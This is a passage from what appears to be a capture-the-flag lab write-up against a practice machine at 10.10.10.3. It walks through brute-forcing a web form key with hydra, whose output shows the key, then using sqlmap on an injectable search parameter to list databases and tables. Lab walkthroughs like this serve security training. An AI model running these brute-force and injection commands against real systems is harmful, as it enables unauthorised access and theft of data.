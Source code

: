 ## Part 2: Hydra and Form Brute-forcing
After some thinking and trial and error, navigate to http://10.10.10.3/kzMb5nVYJw/. Here we see a form. When we enter a random key into the form at this page, we get “invalid key”. We use this info to formulate a hydra command.

Choose big.txt wordlist, select http-post-form, the address 10.10.10.3, the location of the form “/kzMb5nVYJw/index.php” with our field “key” and the ^PASS^ string (the variables argument needs at least the strings ^USER^, ^PASS^, ^USER64^ or ^PASS64^), and the third colon delimited argument that designates failure “invalid key”.
-l is for our login name which is empty, -f is for exit when a login/pass pair is found, -V is for verbose

```$ hydra -P /usr/share/dirb/wordlists/big.txt 10.10.10.3 http-post-form "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -fV -l ""```
```
$ hydra -P /usr/share/dirb/wordlists/big.txt 10.10.10.3 http-post-form "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -fV -l ""
[DATA] max 16 tasks per 1 server, overall 16 tasks, 20469 login tries (l:1/p:20469), ~1280 tries per task
[DATA] attacking http-post-form://10.10.10.3:80/kzMb5nVYJw/index.php:key=^PASS^:invalid key
[STATUS] 4476.00 tries/min, 4476 tries in 00:01h, 15993 to do in 00:04h, 16 active
[80][http-post-form] host: 10.10.10.3   password: elite
```
## Part 3: SQLMap and Forms
Enter “elite” as the key to progress to the next page, which has a form that prompts for a username. After guessing ", we get an error:

```Could not get data: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%"' at line 1```

The full search after an input is: http://10.10.10.3/kzMb5nVYJw/420search.php?usrtosearch=. Knowing this form is hooked up to SQL, we formulate an sqlmap command.
```
$ sqlmap -u "http://10.10.10.3/kzMb5nVYJw/420search.php?usrtosearch=" -dbs

[18:04:29] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.5
[18:04:29] [INFO] fetching database names
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] seth
```
seth is the most interesting database, all the others seem standard.
```
$ sqlmap -u "http://10.10.10.3/kzMb5nVYJw/420search.php?usrtosearch=" -D seth -tables

Database: seth
[1 table]
+-------+
| users |
+-------+
